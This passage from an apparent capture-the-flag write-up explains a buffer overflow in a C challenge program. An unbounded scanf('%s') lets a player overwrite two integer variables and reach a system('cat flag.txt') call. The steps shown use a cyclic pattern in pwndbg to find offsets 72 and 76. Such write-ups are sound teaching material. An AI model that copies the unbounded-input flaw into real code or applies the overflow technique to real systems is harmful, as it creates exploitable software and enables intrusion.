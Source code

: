 ```c
        exit(0);
    }
    puts("and then a string: ");
    scanf("%s", &str3);

    if (num1 == 0xcafebabe && num2 == 0xdeadbeef) {
        puts("Congratulations! Here is your flag: ");
        system("cat flag.txt");
    } else {
        printf("num1: %d, num2: %d, string: %s\n", num1, num2, str3);
        puts("Thank you for your service");
    }
    exit(0);
}
```
{: file="matches.c" }

To get the flag we must give `num1` the value `0xcafebabe` and `num2` the value `0xdeadbeef`, however there is an if-check which doesn't allow us to give `num1` and `num2` values over 1000.

Luckily, this line of code allows for a buffer overflow, because `%s` in `scanf` doesn't have a boundary check
```c
scanf("%s", &str3);
```
{: .nolineno }

Since we have a buffer overflow with `scanf`, we can change the values of `num1` and `num2` after we have given them their initial values.

First we need to find the offsets to `num1` and `num2`, which we do by sending a cyclic pattern as our 3rd input. If we break in GDB at the if-check, we will be able to see what part of the cyclic pattern `num1` and `num2` are, giving us their offsets
```console
pwndbg> r
Starting program: /home/loevland/ctf/wackattack/pwn/matches/matches
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome, please set some variables.
first number:
1
another number:
1
and then a string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaa
```

When we hit the breakpoints we see the following values being compared to `num1` and `num2`: `0x61616174` and `0x61616173`(if you don't pass the first check the program will stop instead of go to the next breakpoint, but we can prevent this with GDB by jumping to the next comparison in the if-check instead).

Looking up the offset in the cyclic pattern, `cyclic -n 4 -l <num1 or num2>`, we find that the offset to the value of `num2` is 72, and the offset to `num1` is 76.
